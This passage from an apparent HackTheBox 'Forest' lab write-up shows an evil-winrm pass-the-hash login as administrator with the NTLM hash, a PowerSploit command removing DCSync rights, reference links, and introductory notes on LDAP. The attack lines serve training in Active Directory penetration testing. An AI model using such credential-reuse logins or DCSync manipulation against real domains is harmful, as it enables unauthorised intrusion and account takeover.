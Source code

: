 - or also gain access with `evil-winrm`
```
evil-winrm -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

![](assets/Forest_assets/Pasted%20image%2020230804203756.png)

- finally we can cleanup those DCSync rights using
```
Remove-DomainObjectAcl -PrincipalIdentity gr4y -Credential $Cred -TargetIdentity htb.local -Rights DCSync
```

Reference
- [Active Directory penetration testing cheatsheet | by Ayrat Murtazin | InfoSec Write-ups (infosecwriteups.com)](https://infosecwriteups.com/active-directory-penetration-testing-cheatsheet-5f45aa5b44ff)
- [DCSync - HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
- [Add-DomainObjectAcl - PowerSploit](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/)

#### HTB Writeup
#### LDAP

- LDAP is used for directory services like Active Directory service. it is a directory service protocol
- The purpose of LDAP is to provide a standardized way for individuals to access and interact with a directory service
- Directory services securely manage users and their access rights to IT resources within an organization using certain protocols
- LDAP is just one of the core protocols used for these directory services, other protocols used by directory services are Kerberos, SAML, RADIUS, SMB, OAuth etc.
- LDAP is an Application layer protocol that uses port 389 via TCP or UDP
- most common use of LDAP is managing user accounts and authentication
- it provides a mechanism to access and query directory services systems
- LDAP organizes directory in a hierarchical tree like structure known as Directory Information Tree(DIT)
- DIT is composed of entries, and each entry represents an object (e.g. user or group), and it is identified by a Distinguished Name (DN)
- clients interact with the LDAP server using the following operations:
	- Bind: Authenticates the client to the server(client provides credentials)
	- Search: search for specific entries in the directory
	- Add: Adds a new entry
	- Modify
	- Delete
	- Compare: compare an attribute value in an entry with a specified value
	- Abandon: Abandons a previous request that hasn't received a response yet